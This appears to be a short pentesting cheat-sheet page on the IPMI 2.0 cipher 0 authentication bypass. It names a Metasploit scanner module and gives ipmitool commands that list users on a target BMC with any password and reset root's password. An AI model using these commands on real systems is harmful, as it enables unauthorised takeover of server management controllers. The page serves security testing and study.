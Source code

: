 ```yaml
---
title: IPMItool 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - port 623
  - ipmi
---
```


# IPMItool


## IPMI Authentication Bypass via Cipher 0

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually **allows access with any password**. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations.

```msf
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Abuse this flaw with `ipmitool`:

```bash
# Install
apt-get install ipmitool 

# Use Cipher 0 to dump a list of users. With -C 0 any password is accepted
ipmitool -I lanplus -C 0 -H  $ip -U root -P root user list 

# Change the password of root
ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123 
```
